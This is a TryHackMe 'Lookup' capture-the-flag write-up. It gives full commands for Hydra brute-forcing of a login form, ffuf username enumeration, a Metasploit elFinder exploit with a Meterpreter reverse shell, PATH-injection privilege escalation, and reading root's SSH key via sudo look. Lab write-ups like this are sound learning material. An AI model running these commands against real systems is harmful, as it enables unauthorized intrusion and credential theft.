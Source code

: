 # TryHackMe - Lookup (Easy)

Reconnaissance
I started with standard scanning:


sudo nmap -sC -sV -oN lookup.thm xxxx
Open ports:

22 (SSH)

80 (HTTP)

I opened the website — there was a login form. I first tried admin:admin. The login worked, but the password was incorrect, which meant the username exists.

I immediately ran Hydra to brute-force the password:


hydra -l admin -P /usr/share/wordlists/rockyou.txt xxxx http-post-form "/login.php:username=^USER^&password=^PASS^:Incorrect"
The result was empty.

Then I decided to check other users using ffuf:


ffuf -u http://xxxx/login.php -d "username=FUZZ&password=test" -w /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -X POST -H "Content-Type: application/x-www-form-urlencoded" -mc 200
Found a second user: jose.

Gaining Access
Brute-forcing the password for jose:


hydra -l jose -P /usr/share/wordlists/rockyou.txt xxxx http-post-form "/login.php:username=^USER^&password=^PASS^:Incorrect"
Password found: jose:password123.

After logging in, the system suggested adding a new host:


echo "xxxx files.lookup.thm" | sudo tee -a /etc/hosts
Went to http://files.lookup.thm and saw the elFinder file manager. Checked its version and found an exploit using searchsploit elfinder.

In msfconsole, I used the module:


msfconsole
use exploit/multi/http/elfinder_php_connector_exec
set RHOSTS xxxx
set TARGETURI /elfinder/php/connector.minimal.php
set payload php/meterpreter/reverse_tcp
set LHOST tun0
run
Gained access as www-data.

Privilege Escalation — Switching to user think
Ran linpeas.sh:


./linpeas.sh
It showed the binary pwm running as root, which calls id and saves the output to ~/.passwords.

Tried a PATH injection:


echo "id_think" > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
After running the binary, I found the password for user think in ~/.passwords.

Logged in:


su think
This step was tricky but helped understand how PATH injection can reveal passwords.

Privilege Escalation — Root
Checked sudo privileges:


sudo -l
It turned out that think can run the binary look as root.

On GTFOBins, I found a way to use it to read files:


sudo look '' /root/.ssh/id_rsa
Copied the root key, saved it:


nano id_rsa
chmod 600 id_rsa
ssh -i id_rsa root@xxxx
Gained root access.

Additional Attempts
I tried CVE-2021-3560 (mentioned in linpeas report), but it didn’t work. The main working path was through look and the root private key.

New Knowledge and Commands
ffuf has special user lists.

For brute-force, it’s important to specify the exact file, e.g., login.php.

Practical experience with PATH injection via export PATH=/tmp:$PATH.

Experience with sudo -l and GTFOBins.

Using private keys to gain root access via SSH.

Conclusion
Managed to complete the machine:

Reconnaissance: nmap, ffuf, hydra
Exploitation: elFinder via msfconsole
Privilege Escalation: PATH injection → user think
Privileges: sudo look → root via SSH key

Although there were challenges (especially understanding PATH injection and password brute-forcing), the experience was very useful.
